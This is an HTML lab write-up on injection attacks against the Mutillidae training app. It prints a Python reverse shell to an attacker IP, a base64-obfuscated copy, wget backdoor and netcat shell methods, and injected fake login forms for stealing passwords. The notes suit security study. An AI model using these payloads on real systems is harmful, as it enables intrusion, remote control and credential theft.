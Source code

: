 <h1>Other forms of Injection</h1>
<p>
	The purpose of injection remains the same , injecting into an interpreted context for causing the application to perform an unintended functionality.
</p>
<ol>
<li><h2>Command Injection:</h2>
<p> Command injection referes to the attack mechanism in which an attacker can inject any command into the 
underlying OS and compromise the back-end system. Mutillidae for me is hosted on a Linux server, so will be using UNIX commands for the same. Getting shell access on the underlying server system is often the jackpot to any attacker. We can create persistent backdoors with the help of metasploit.
</p>
<ul>
<li>
<h3>Method 1:</h3>
Download a php backdoor via wget using the command injection flaw
And then use that backdoor. 
Catch: /var/www should be writeable
If .htacess is modifiable, we can modify .htacess and make /var/www writeable
</li>
<li><h3>Method 2:Netcat shell</h3>
Use Netcat with <b>"-e"</b> option to allow for command execution after connect.
The -e executes whatever we place in after the parameter. In this case we want to spawn a 
bash shell on tcp connect. 
However, this option is not present on many traditional netcat installations
What to do in this case?
Well we can go for a custom shell in a language of our choice
</li> 
<li><h3>Method 3:Python shell(any language installed on backend)</h3>
Set up a listener on attacker machine
<pre>
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('192.168.13.150',1234))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
</pre>
For obfuscation , we could also base64 encode and decode string
<pre>
python -c "exec('aW1wb3J0IHNvY2tldCwgc3VicHJvY2VzcztzID0gc29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgo\n4oCYMTkyLjE2OC4xMy4xNTDigJksOTAwMCkpCndoaWxlIDE6ICBwcm9jID0gc3VicHJvY2Vzcy5Q\nb3BlbihzLnJlY3YoMTAyNCksIHNoZWxsPVRydWUsIHN0ZG91dD1zdWJwcm9jZXNzLlBJUEUsIHN0\nZGVycj1zdWJwcm9jZXNzLlBJUEUsIHN0ZGluPXN1YnByb2Nlc3MuUElQRSk7cy5zZW5kKHByb2Mu\nc3Rkb3V0LnJlYWQoKStwcm9jLnN0ZGVyci5yZWFkKCkp\n'.decode('base64'))"
</pre>
</li>
<li><h3>Method-4: Meterpreter Shell</h3>
Deploying a Meterpreter shell is one way to create a well obfuscated persisitent backdoor to any OS we have shell acess on.How to create and deploy a meterpreter shell is a different and vast topic altogether.
</li>
</ul>
<li><h2>Frame Source injection</h2>
	Similar to a Remote file inclusion vulnerability. We can include any special characters once they  are URL encoded to cause an XSS attack on the site. We can include any iframe of our choice such as a malicious form and then steal user credentials or make cross-domain requests. We could inject a remote page into the src of the iframe. Note that iframes cannot access the cookies of the parent site, however can run arbitary javascript if not run in sandbox mode.
	<p> iframe sources should never be allowed to be controlled by user input, as the iframe can load potential malware from other site. There are other security risks as well. I found this blog very helpful.
	<a href="https://stackoverflow.com/questions/7289139/why-are-iframes-considered-dangerous-and-a-security-risk?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa">Why Iframes pose a security risk?</a>
	We can corrupt the iframe src to load xss attacking page from our server or even an AJAX request to our site. We can inject this to the vulnerable parameter and let the fun unroll, or even a remote html page from the attacking server of our choice. 
	<pre>
		%3Ch1%3ESession+Expired%3C%2Fh1%3E%0D%0A%3Cform+action%3D%22Marale%22%3E%0D%0A%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22password%22%2F%3E%0D%0A%3Cinput+name%3D%22name%22+placeholder%3D%22name%22%2F%3E%0D%0A%3Cinput+type%3D%22submit%22%2F%3E%0D%0A%3C%2Fform%3E%3C%21--
	</pre> 
</li>
<li><h2>HTML Injection </h2>
	When there is a vulnerability in the application which allow you to inject HTML into code.
	This can cause the client to visit a vulnerable "GET" URL and steal Non-http cookies or reveal csrf token to an attacker via an Ajax request. There are a multitude ways this can be exploited.
</br>
	Also, some of these require different contexts , such as those when modifying things such as the HTTP headers, as the victim will not change these to attack himself if the HTML injected is not stored but reflected back. In case of submissions via POST request, the POST requests now can be stored in a clickable link which can be visited via DATA URI.Also, if a site is vulnerable to HTMLi ,it most likely is vulnerable to Javascript Injection as well 
	<ul>
		<li><h3>Basic</h3>
		<p>Simple case, where the input fields visible are vulnerable to HTML injection. You may use any of the web pages, <b>"Add to your Blog"</b> is what I have exploited. Make sure not to use single quotes or else the SQL query will explode</p>
		<pre>
&ltform action="/attacked"&gt
&ltinput name="user"/&gt
&ltinput id='ps' type="password" name="pass"/&gt
&ltbutton type="submit"&gtRegister&lt/button&gt
&lt/form&gt
		</pre>
	</li>
	<li>
		<h3>Via HTTP Headers</h3>
		<p>
			These exploits can work under a man in the middle the attack, or a clever manipulation of the iframe header to load the web page silently in the background. The target page here is DNS lookup page. We must always check the context and filters on the 
			Using Burp intercept the outgoing request. In the DNS lookup page, I am targetting the vulnerability labelled as <b>"Those Back Buttons"</b>.
		</p>
			<p>
				In the beginning , visit this page from another page. As MITM simulation, intercept using Burp, and modify the Referer header to something like this <i>&lt+&gt</i> to see where the payload is getting injected. When the page loads, inspect the backbutton which loads the value from <i>window.href.location</i>. Its value will be like this.
		<pre>
&lta onclick="document.location.href='&lt+&gt';"&gt
		</pre>
		<p>
		So , now knowing the context and the fact that there is no encoding or sanitization defense, we do this.
	</p>
		<pre>
';"&gt&ltform action='hacked'&gt&ltinput type='password' name='password' placeholder='password'/&gt&ltinput name='name' placeholder='name'/&gt&ltinput type='submit'/&gt&lt/form&gt&lt!--
		</pre>
	</p>
	</li>
	<li><h3>Cookie Manipulation</h3>
<p>We do an MITM, and then modify the victim's cookie to be something that causes an HTML injection.

</p>

	</li>

	<li><h3>HTTP Parameter Pollution</h3>
	<p>HTTP parameter pollution is just a method to repeat HTTP parameters and carry out a malicious attack.HTTP standards do not specify how a server should handle repeated parameters. While carrying out an attack, we can use this technique to bypass setting up some IDS, if the repeated parameter value, is concatenated by the backend server to have the desired payload. It is not a standalone attack</p>


	</li> 

	<li><h3>DOM Manipulation</h3>
		We manipulate the DOM things such as Web Storage. 
		Web storage provides larger storage than cookies and follows the same origin policies. It can be accessed via javascript, and is a HTML5 w3 standard. What it means is one site cannot modify or access the web storage for other site, if their origin is different.Also, this can be done via Javascript or some malicious browser extension. Secondly, for the injection via WebDOM to work the Web Storage must be reflected somewhere on the page unsanitized. The localstorage object persists until manually removed, and the session storage object is deleted, once the user closes the browser window(It is valid for one session of the browser).
		<br>
		In mutillidae try this overused session expired payload, on the page <b>html5-storage.php</b>.
		<pre>
&gt&ltform action='hacked'&gt&ltinput type='password' name='password' placeholder='password'/&gt&ltinput name='name' placeholder='name'/&gt&ltinput type='submit'/&gt&lt/form&gt&lt!--
		</pre>
	</li>
	</ul>
</li>
<li><h2>Javascript injection</h2>
<p>
	Same technique of exiting the context but instead of the HTML we would be injecting javascript. A Javascript injection attack is also known as XSS. 
</p>
</li>




